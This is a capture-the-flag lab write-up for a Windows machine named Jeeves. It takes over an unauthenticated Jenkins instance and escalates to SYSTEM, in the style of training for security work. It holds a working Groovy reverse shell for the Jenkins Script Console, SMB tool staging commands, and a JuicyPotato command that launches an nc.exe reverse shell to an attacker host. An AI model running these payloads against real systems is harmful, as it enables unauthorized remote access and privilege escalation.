


# Jeeves

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows</span>
<span class="wu-badge wu-diff wu-diff--medium">Medium</span>
<span class="wu-tags">
<span class="wu-tag">Jenkins RCE</span>
<span class="wu-tag">JuicyPotato</span>
<span class="wu-tag">SeImpersonate</span>
<span class="wu-tag">Alternate Data Streams</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Jeeves starts with an unauthenticated Jenkins instance on a non-standard port and ends with a hidden alternate data stream. The Jenkins Script Console runs arbitrary Groovy, which is a direct shell as the service account. That account holds `SeImpersonatePrivilege`, so a JuicyPotato attack escalates to SYSTEM — and the root flag is tucked into an NTFS alternate data stream rather than a normal file.

## Attack path

1. Find Jenkins on port 50000 under `/askjeeves` and run a Groovy reverse shell from the Script Console for a shell as `kohsuke`.
2. Abuse `SeImpersonatePrivilege` with JuicyPotato to obtain a SYSTEM shell.
3. Read the root flag hidden in the `hm.txt:root.txt:$DATA` alternate data stream.

**Tools:** nmap, feroxbuster, Jenkins Script Console, impacket-smbserver, JuicyPotato, nc.exe.

## Enumeration

Set the target and scan:

```bash
IP=10.10.10.63

ports=$(nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports
sudo nmap -p$ports -sC -sV $IP -oA scan_tcp
```

### Nmap results

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
```

Port 80 is a fake "Ask Jeeves" search page whose error screen is just an image — a dead end. The Jetty server on 50000 is more promising.

## Foothold

Fuzz the Jetty service on 50000 and it reveals `/askjeeves`:

```bash
feroxbuster -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
# 200  http://10.10.10.63:50000/askjeeves
```

`http://10.10.10.63:50000/askjeeves` is an **unauthenticated Jenkins** dashboard. Jenkins ships a Script Console under *Manage Jenkins* that executes arbitrary Groovy, so paste a reverse shell and run it with a listener open:

```groovy
String host="10.10.14.16";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();po.flush();Thread.sleep(50);
  try{p.exitValue();break;}catch(Exception e){}
};
p.destroy();s.close();
```

```bash
nc -lvnp 8044
```

The listener returns a shell as `kohsuke`, whose desktop holds the user flag.

## Privilege escalation

Check privileges:

```
C:\Users\Administrator\.jenkins> whoami /priv

Privilege Name                Description                               State
============================= ========================================= =======
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

<figure class="wu-evidence" markdown>

<figcaption><code>SeImpersonatePrivilege</code> is the decisive finding: the Jenkins service account can impersonate an authenticated token.</figcaption>
</figure>

`SeImpersonatePrivilege` is the green light for a potato attack. Stage the tools over an SMB share from Kali and pull them onto the target:

```bash
impacket-smbserver myshare . -smb2support -username kali -password testpw
```

```
net use T: \\10.10.14.16\myshare /user:kali testpw
copy T:\nc.exe .
copy T:\JuicyPotato.exe .
```

Run JuicyPotato to impersonate SYSTEM and fire a second reverse shell (test a few CLSIDs if the first fails to create):

```
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.16 443" -t *
```

That returns a shell as SYSTEM. On the Administrator desktop, `root.txt` isn't a normal file — a plain `dir` shows only `hm.txt`, but `dir /r` exposes an alternate data stream:

```
C:\Users\Administrator\Desktop> dir /r
   36 hm.txt
   34 hm.txt:root.txt:$DATA
```

<figure class="wu-evidence" markdown>

<figcaption>A normal directory listing hides the flag, while <code>dir /r</code> exposes the <code>root.txt:$DATA</code> alternate data stream.</figcaption>
</figure>

Read the stream directly to get the root flag:

```
more < hm.txt:root.txt:$DATA
```
